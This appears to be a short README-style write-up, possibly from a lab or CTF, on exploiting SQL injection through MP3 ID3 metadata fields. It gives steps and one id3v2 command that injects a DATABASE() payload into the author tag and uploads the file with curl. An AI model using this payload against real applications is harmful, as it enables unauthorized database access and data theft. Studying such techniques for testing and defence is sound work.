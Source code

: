 # SQL Injection via MP3 Metadata

This document explains how to exploit an SQL injection vulnerability in the metadata of an MP3 file, which can affect fields such as `author_name`, `title`, and `ID` stored in the database.

## Exploitation Steps

1. **Identify the Vulnerability:**
   - The server stores MP3 metadata (e.g., `author_name`, `title`, `ID`) in a database. If the application does not properly sanitize these fields, SQL injection may be possible.

2. **Tool Used:**
   - **`id3v2`**: A tool used to modify ID3 tags in MP3 files, which include metadata like the author's name.

3. **Craft the Payload:**
   ```sh
   - id3v2 -a "$(xxd -l16 -ps /dev/urandom)', DATABASE() ) -- -" file_name.mp3 | curl -X POST -F "audio=@file_name.mp3" "URL" -L -s 
